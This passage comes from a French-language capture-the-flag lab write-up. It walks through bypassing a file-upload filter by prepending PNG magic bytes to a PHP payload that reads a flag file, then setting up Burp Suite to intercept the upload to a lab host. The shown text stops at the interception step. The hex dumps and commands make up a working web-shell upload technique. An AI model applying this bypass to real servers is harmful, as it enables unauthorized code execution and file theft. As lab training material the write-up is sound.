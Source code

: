 
**Procédure dans hexeditor** :
1. Place le curseur sur le premier octet (`31`)
2. Tape les valeurs hexadécimales une par une : `89` `50` `4E` `47` `0D` `0A` `1A` `0A`
3. Le curseur avance automatiquement après chaque paire de chiffres
4. Sauvegarde : `Ctrl+X` puis confirme avec `Y` ou `O`

**Résultat après modification** :
```
00000000  89 50 4E 47  0D 0A 1A 0A   0A 3C 3F 70  68 70 20 72    .PNG.....<?php r
00000010  65 61 64 66  69 6C 65 28   27 46 4C 41  47 5F 33 2E    eadfile('FLAG_3.
00000020  74 78 74 27  29 20 3F 3E   0A                         txt') ?>.
```

#### Étape 3 : Vérifier le fichier modifié

**Vérifier avec hexdump** :
```bash
hexdump -C image3.php.png | head -n 3
```

**Output attendu** :
```
00000000  89 50 4e 47 0d 0a 1a 0a  0a 3c 3f 70 68 70 20 72  |.PNG.....<?php r|
00000010  65 61 64 66 69 6c 65 28  27 46 4c 41 47 5f 33 2e  |eadfile('FLAG_3.|
00000020  74 78 74 27 29 20 3f 3e  0a                       |txt') ?>.|
```

**Vérifier avec file** :
```bash
file image3.php.png
```

**Output attendu** :
```
image3.php.png: PNG image data
```

✅ Le système détecte maintenant le fichier comme une image PNG grâce aux magic numbers!

#### Étape 4 : Configuration de Burp Suite

1. Lancer Burp Suite :
   ```bash
   burpsuite
   ```

2. Configurer Firefox pour utiliser le proxy Burp :
   - HTTP Proxy : `127.0.0.1`
   - Port : `8080`

3. Dans Burp Suite :
   - Aller dans **Proxy → Intercept**
   - Activer l'interception : **"Intercept is on"**

#### Étape 5 : Upload et interception

1. Naviguer vers : `http://test-s3.web0x05.hbtn/task3`
2. Sélectionner le fichier `image3.php.png`
3. Cliquer sur **Upload**
4. Burp intercepte la requête
